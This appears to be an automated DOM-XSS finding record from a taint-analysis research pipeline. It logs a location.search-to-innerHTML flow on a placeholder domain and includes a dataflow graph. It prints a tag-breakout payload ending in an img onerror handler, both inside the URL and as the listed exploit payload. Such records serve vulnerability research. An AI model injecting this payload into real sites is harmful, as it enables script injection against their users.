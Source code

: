 // Finding: a04806af-83ab-46d9-87b3-88a3327562be
// Finding.url: https://example71.com/grants/awarded-grants?field_recipient_type[Office+of+Library+S</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('0cd511820c50436f80f9e5e2e810f881')><!--/*]=Office+of+Library+Services&field_fiscal_year_text[1]=1
// Finding.parentloc: https://example71.com/grants/awarded-grants?field_recipient_type[Office+of+Library+S</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('0cd511820c50436f80f9e5e2e810f881')><!--/*]=Office+of+Library+Services&field_fiscal_year_text[1]=1
// Finding.domain: example71.com
// Finding.base_domain: example71.com
// Finding.source: location.search
// Finding.sink: innerHTML
// Sanitizer.score: 1
// Sanitizer.name: <synthetic>
// Sanitizer.location: example18.com
// Finding.begin: 166
// Finding.end: 225
// Finding.original_uuid: bb418ff5-d553-4c4f-ba22-1b60cb9fd8fa
// Finding.TwentyFiveMillionFlowsId: -801626979
// Finding.script: https://example71.com/core/assets/vendor/jquery/jquery.min.js?v=3.5.1
// Finding.line: 2
// Exploit.uuid: 0cd51182-0c50-436f-80f9-e5e2e810f881
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: text
// Exploit.content: S
// Exploit.quote_type: None
// Exploit.tag: None
// Exploit.break_out: S</iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: S</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 78
// Exploit.end_taint_url: 86
// Exploit.replace_begin_url: 78
// Exploit.replace_end_url: 86
// Exploit.replace_begin_param: 43
// Exploit.replace_end_param: 51
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: true
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: 1721767369
// DepGraph.sanitizer_hash: 777948992
// Merged split and join statements 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="decodeURIComponent"];
n2 [shape=box, label="Var: x"];
n3 [shape=ellipse, label="url_params_key"];
n4 [shape=box, label="Lit: field_recipient_type[Office of Library S</iframe></style></script></object></embed></textarea><img src"];
n5 [shape=box, label="Var: x"];
n6 [shape=ellipse, label="preg_replace"];
n7 [shape=box, label="RegExp: /[ ]/"];
n8 [shape=box, label="Lit: -"];
n9 [shape=box, label="Var: x"];
n10 [shape=box, label="Var: x"];
n11 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n5 -> n1;
n3 -> n4;
n3 -> n5;
n9 -> n3;
n6 -> n7;
n6 -> n8;
n6 -> n9;
n10 -> n6;
n11 -> n10;
}